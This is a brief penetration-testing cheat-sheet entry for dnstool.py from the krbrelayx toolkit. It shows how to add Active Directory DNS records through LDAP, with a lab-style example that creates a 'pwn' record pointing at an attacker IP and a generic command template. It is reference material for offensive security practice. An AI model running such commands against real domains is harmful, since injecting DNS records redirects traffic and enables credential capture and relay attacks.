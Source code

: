 # dnstool

% dnstool, Active Directory, dns, ldap

## dnstool - Add  Active Directory Integrated DNS records via LDAP
#plateform/linux #target/remote #protocol/ldap #cat/ATTACK 

Example : python3 /usr/share/krbrelayx/dnstool.py -u intelligence\\foo -p password123 --action add --record pwn --data 10.10.14.19 --type A 10.10.10.248

https://github.com/dirkjanm/krbrelayx

```bash
dnstool.py -u <user> -p <password> --action add --record <name> --data <ip> --type A <server>
```

